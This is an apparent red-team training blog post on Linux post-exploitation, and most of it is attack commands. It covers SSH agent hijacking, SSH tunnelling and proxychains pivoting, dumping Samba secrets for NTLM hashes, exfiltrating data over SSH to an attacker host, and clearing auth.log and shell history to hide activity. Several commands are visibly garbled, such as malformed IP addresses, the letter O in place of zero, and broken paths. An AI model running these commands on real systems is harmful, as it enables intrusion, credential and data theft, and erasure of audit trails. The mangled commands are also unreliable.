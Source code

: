 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.4
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Lateral Movement And Exfiltration. 

## Introduction

**_In this blog post we will discuss, Linux lateral movements, Data Exfiltration, covering tracks._**


**Lateral Movement**

Its a technique to move around in a network in search of data or assets to exfiltrate and gain access to multiple target assets.


**SSH Hijacking**

For this method to be successful, the compromised machine should have an active SSH session established to another machine via Public Key Authentication.

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
``
``
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
``
`` 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
``
`` 
# Attacker can log in to remote systems as the victim
ssh remote_system -l victim
```

[Click here to know more about it](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)


**SSH Tunneling**

It is used to port forward the attacker machine to access internal assets

Local port forwarding on port 8080 through SSH TUNNEL from attacker session to another machine.

``
sudo ssh  -L 127.0.0.1:8080:192,168.1,118:8080 user@<targetIP>
``
Remote forward on 8080 , forward to the attacker on 443

``
sudo ssh -R8080:127.0.0.1:443 user@<targetip>
``

**sshuttle** is an alternative for ssh tunneling

``
https://github.com/sshuttle/sshuttle
``

**Proxy chaining**

proxychains - redirect connections through proxy servers

To configure ProxyChains, we simply edit the main configuration file (/etc/proxychains.conf) and add our SOCKS4 proxy to it
we will append following line proxychains.conf file

``
socks4 127.0.0.1 1337
``
``
ssh -D1337 root@2.2.2.2 (For dynamic tunneling)
``

In a separate terminal run:
``
proxychains nmap -A -p- <10.10.10.139>
``
And you will be able to use nmap with proxychains to scan any internal host. Proxychains tunneling used to discover internal host services and internal networks.

**VPNPivot**
VPN Pivot sends and receives a fully encrypted TCP/IP stack over TCP stream socket, then the peers forward it into the desired device/host. The attacker explores the internal network as he belongs to it within a local IP address taken from the DHCP server or statically configured.

Installation

```
# git clone https://github.com/0x36/VPNPivot.git

cd VPNPivot

./autogen.sh

./configure

 make && make install
```
**Usage:**
``
./src/pivotc <server IP> <server port> <locale IP> [MTU]
``
```
The options are :

    server IP: the IP address of the server (pivots)
    
    server port: the port which the server is listening on
    
    locale IP: the IP address of the network interface connected to the unreachable network.
    
    MTU: the MUT is optional unless you're changing it in pivots
```




**Samba system secrets to take over domain admin**

``
tdbdump /var/lib/samba/private/secrets.tdb
``
If we get NTLM hash for any machine in the domain we can compromise it using pass the hash technic.

I will explain pass the hash in the upcoming blog post.


**Data Exfiltration**

Exfiltration of sensitive data from the target machine, and owning that data to see severity.

There are many techniques to move data from the target machine to attacker machine


** Using SSH**

Start nc listner in attaker machine

``
nc -nlvp 80 > Targetdata.tmp
``

In target machine

``
tar zcf - /tmp/datafolder | ssh root@<attackerIP> "cd /tmp; tar zxpf -"
``
 
**

## Cover tracks

Washing hands, after did a sin. 

Clear auth.log file

``
echo "" /var/log/auth.log
``

Clear current user bash history

``
echo "" -/.bash history
``

Delete .bash_history file

``
rm -/.bash histor/ -rf
``

Clear current session history

``
history -c
``

Set history max lines to 0

``
export HISTFILESIZE=O
``

Set history max commands to 0

``
export HISTSIZE=O
``

To kill current session

``
kill -9 $$
``

To permanently send all bash history commands to /dev/null

``
ln /dev/null -/.bash_history -sf
``


There are many other techniques also, you can check them yourself and keep practice.

## Conclusion

_**In this blog post we discussed some lateral movement and data exfiltration techniques, we will discuss persistence in upcoming red team series.**_









































